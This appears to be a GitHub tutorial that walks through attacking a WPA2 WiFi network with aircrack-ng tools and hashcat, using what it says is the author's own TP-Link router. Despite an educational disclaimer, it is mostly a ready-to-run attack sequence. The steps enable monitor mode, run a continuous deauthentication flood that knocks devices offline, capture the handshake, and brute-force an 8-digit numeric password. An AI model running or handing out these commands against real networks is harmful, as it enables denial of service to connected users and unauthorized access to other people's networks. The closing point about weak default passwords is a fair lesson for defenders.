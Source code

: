 # WiFi Deauthentication & WPA2 Cracking using Hashcat

> **Disclaimer:** This guide is intended strictly for educational purposes and ethical hacking within authorized environments. Do not attempt on networks without explicit permission.

## Requirements

- Kali Linux
- Compatible WiFi adapter (supports monitor mode & packet injection)
- Tools used:
  - `airmon-ng`
  - `airodump-ng`
  - `aireplay-ng`
  - `hcxpcapngtool`
  - `hashcat`

## Step-by-Step Process

### 1. Check WiFi Dongle Connection

```bash
iwconfig
```

Check if your dongle (e.g., wlan1) is detected and in `Managed` mode.

### 2. Enable Monitor Mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan1
iwconfig
```

Confirm that the interface (wlan1) is now in `Monitor` mode.

### 3. Discover Nearby WiFi Networks

```bash
sudo airodump-ng wlan1
```

Find your target network and note the following:
Like in my case it was: 

- SSID: TP-Link\_2646
- Channel: 4
- BSSID: C0\:C9\:E3:83:26:46

### 4. Target the Specific Network

```bash
sudo airodump-ng wlan1 -d C0:C9:E3:83:26:46
```

This filters results to show only the target network.

### 5. Deauthenticate Connected Devices

In a **new terminal**, run:

```bash
sudo aireplay-ng --deauth 0 -a C0:C9:E3:83:26:46 wlan1
```

This forces devices to disconnect and reconnect, capturing the handshake.

### 6. Capture WPA2 Handshake

In the original terminal:

```bash
sudo airodump-ng -w hack1 -c 4 --bssid C0:C9:E3:83:26:46 wlan1
```

- `-w hack1`: Saves to hack1-01.cap
- `-c 4`: Channel 4
- `--bssid`: Specific router target

### 7. Convert .cap to .hc22000 Format

```bash
sudo hcxpcapngtool -o wpa2.hc22000 hack1-01.cap
```

This converts the capture into a format readable by Hashcat.

### 8. Brute-Force the WPA2 Password

```bash
hashcat -m 22000 -a 3 wpa2.hc22000 ?d?d?d?d?d?d?d?d
```

- `-m 22000`: WPA2
- `-a 3`: Brute-force mode
- `?d?d?d?d?d?d?d?d`: 8-digit numeric password pattern

### 9. (Optional) Restart Network Manager

```bash
sudo service NetworkManager restart
```

To restore regular network functionality.

## Summary

Using this method, a default 8-digit numeric password of a TP-Link router was successfully cracked. This demonstrates a real-world vulnerability in using weak/default WiFi passwords.

---

**Educational Use Only.** Always act responsibly and ethically when handling cybersecurity tools.


